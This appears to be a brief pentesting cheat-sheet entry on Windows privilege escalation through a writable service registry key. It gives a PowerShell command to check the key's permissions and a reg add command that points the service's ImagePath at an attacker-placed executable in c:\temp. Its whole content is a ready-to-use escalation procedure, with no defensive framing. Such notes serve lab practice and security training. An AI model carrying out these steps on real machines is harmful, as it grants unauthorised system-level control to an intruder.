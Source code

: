 # regsvc ACL privesc
Enumeration using PowerShell:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsrv | fl
```
Check the output for 'NT AUTHORITY\INTERACTIVE' has 'Allow FullControl'
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsrv /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
